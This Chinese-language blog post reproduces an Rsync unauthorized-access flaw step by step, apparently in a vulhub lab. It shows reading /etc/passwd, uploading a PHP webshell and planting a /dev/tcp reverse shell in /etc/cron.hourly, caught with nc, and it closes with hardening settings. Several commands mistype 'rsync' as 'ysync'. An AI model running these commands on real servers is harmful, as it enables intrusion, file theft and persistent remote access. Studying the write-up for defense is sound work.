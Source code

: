 ```yaml
---
title: Rsync未授权访问复现
date: 2020-05-30 15:42:36
categories: 漏洞复现
tags: 未授权访问
---
```


#### Rsync

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听**873**端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件,甚至可以反弹shell。

<!--more-->

#### 未授权访问读取文件

读取文件

`rsync ysync://url:端口/目录`

![](http://cdn.laohuan.art/2020-05-29_16-40-45.png)

下载目标的passwd文件

`rsync rsync://url:80/src/etc/passwd ./`

![](http://cdn.laohuan.art/2020-05-29_16-45-44.png)

查看目标主机用户

![](http://cdn.laohuan.art/2020-05-29_16-47-07.png)

#### 上传一句话木马

`ysync -av shell.php rsync://url:端口/src`

![](http://cdn.laohuan.art/2020-05-29_17-26-08.png)

可以看到shell已经传到目标主机上

![](http://cdn.laohuan.art/2020-05-29_15-23-36.png)

#### 反弹shell

crontab

Linux crontab是用来定期执行程序的命令。

当安装完成操作系统之后，默认便会启动此任务调度命令。

crond 命令每分锺会定期检查是否有要执行的工作，如果有要执行的工作便会自动执行该工作

下载并查看目标计划任务

`rsync ysync://url:端口/src/etc/crontab ./`

![](http://cdn.laohuan.art/2020-05-29_21-27-30.png)

红框内容表示每小时的第17分钟将会执行如下命令

`run-parts --report /etc/cron.hourly`

此文件下的东西，每个小时的第17分钟都将被执行一遍，我们将shell写到这个文件下，再另一个服务器设置好监听，稍加等待便能获得shell

上传反弹shell

准备我们的shell文件，shell内容如下

```bash
#!/bin/bash 
/bin/bash -i >& /dev/tcp/x.x.x.x/3950 0>&1
```

1. x.x.x.x为攻击机的IP地址
2. 3950为攻击机的监听端口

![](http://cdn.laohuan.art/2020-05-29_21-30-53.png)

上传shell

`rsync -av shell rsync://url:端口/src/etc/cron.hourly`

![](http://cdn.laohuan.art/2020-05-29_21-32-40.png)

在目标机的/etc/cron.hourly/下能看到上传的shell文件

![](http://cdn.laohuan.art/2020-05-29-41.png)

#### 反弹

在攻击设置好监听

`nc -nvlp 3950`

监听端口需和反弹shell里所一致

![](http://cdn.laohuan.art/2020-05-29_21-33-58.png)

实验里可根据具体时间修改靶机的/etc/crontab的文件，快速反弹shell，而实际环境就慢慢的等到每个小时的第17分钟吧

稍加等待，便能获得shell

![](http://cdn.laohuan.art/2020-05-29_15-18-02.png)

#### 防御

1.编辑配置文件

`nano /etc/rsync.conf`

2.写入代码

```
hosts allow xxx.xxx.xxx.xxx #限制访问IP
auth users = rsync           #认证的用户
secrets file = /etc/rsyncd.passwd
```

3.新增文件

`vim /etc/rsyncd.passwd`

写入用户密码

`ysync :password`

#### 参考链接

<https://blog.csdn.net/qq_36374896/article/details/84112341/>

<https://github.com/vulhub/vulhub/tree/master/rsync/common/>

